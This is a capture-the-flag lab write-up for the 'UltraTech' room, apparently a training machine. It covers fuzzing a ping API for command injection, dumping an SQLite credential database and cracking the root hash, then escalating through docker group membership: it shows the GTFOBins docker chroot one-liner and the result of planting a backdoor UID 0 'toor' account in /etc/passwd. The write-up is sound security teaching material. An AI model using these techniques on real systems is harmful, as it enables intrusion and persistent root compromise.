 # UltraTech (Medium)

- The basics of Penetration Testing, Enumeration, Privilege Escalation and WebApp testing

                                                           **~_. UltraTech ._~**

*This room is inspired from real-life vulnerabilities and misconfigurations I encountered during security assessments.*

*If you get stuck at some point, take some time to keep enumerating.*

              **[ Your Mission ]**

You have been contracted by UltraTech to pentest their infrastructure.

It is a grey-box kind of assessment, the only information you have is the company's name and their server's IP address.

- We skip some basic steps enumurate and focus into the step research and exploit the machine.
- After scan all ports and enumurate directories, we have the port :31331 and port :8081 that we can use both.
- Let’s research all directories in port 31331 —> we have the /partners.html is the login page
- Port 8081 is the API of website UltraTech. They have two directories are /ping and /auth .
- /auth is the page link with the page login /partners.html so when we login the credentials, the page will transfer to → /auth to show the message “Invalid or login success”.
- We have the hint to find the database lying around so we need to find it to login the page.
- Now we can use to Burpsuite to intercept something.

![Untitled](Untitled.png)

- We can see when we open the page, the API will be automatic run with the Request query ping IP. We see the Response with ping successfully.

![Untitled](Untitled%201.png)

—> We have known the ping is always successful so we can manipulate the query ping IP to Inject command into query. Now we will `FUZZ` the inject command by Intruder.

- After researching the APIs, we know that we can inject command like ls, whoami, … with the command URL encoded.
- First we add $$ and command ls into the query.

![Untitled](Untitled%202.png)

- Secondly, we will load Payloads we will FUZZ. In here we will use the payload in `/usr/share/wordlists/wfuzz/Injections/All_attack.txt`  and Start attack.

![Untitled](Untitled%203.png)

- Waiting and check the Fuzz we will see the Payload “%0a” —> This is the newline URL encoded that is successful.

![Untitled](Untitled%204.png)

—> We have the database we need: utech.db.sqlite.

- Cat it to see information:

![Untitled](Untitled%205.png)

—> We have the credentials r00t:f357a0c52799563c7c7b76c1e7543a32 (password hashed) —> Dehash password —> r00t:n100906

- We use the credential we found to login SSH:

![Untitled](Untitled%206.png)

- We will privilege Root to get the SSH key private.
- And we use the tool `Linpeas.sh` scan the machine to find the vector priv and we have found the vector *docker .*
- First we try it with Docker shell in *GTFOBin:*

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
docker: Error response from daemon: Get https://registry-1.docker.io/v2/: net/http: request canceled while waiting for connection (Client.Timeout exceeded while awaiting headers).
See 'docker run --help'.
```

—> It is not worked !!!

- We check the image of Docker:

```bash
r00t@ultratech-prod:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        5 years ago         15.8MB
```

—> We have one the docker image is “Bash” so we research to find other way with Docker.

- So We found it !!!

![Untitled](Untitled%207.png)

- We will  mount bash to create the new account in backdoor.
- Note: We need to cd /  firstly and after that we will mount bash.

![Untitled](Untitled%208.png)

```bash
r00t@ultratech-prod:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
lp1:x:1000:1000:lp1:/home/lp1:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
ftp:x:112:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
r00t:x:1001:1001::/home/r00t:/bin/bash
www:x:1002:1002::/home/www:/bin/sh
toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh
```

—> Successful !!! and now `su toor` and get the private SSH key.

![Untitled](Untitled%209.png)

END!!!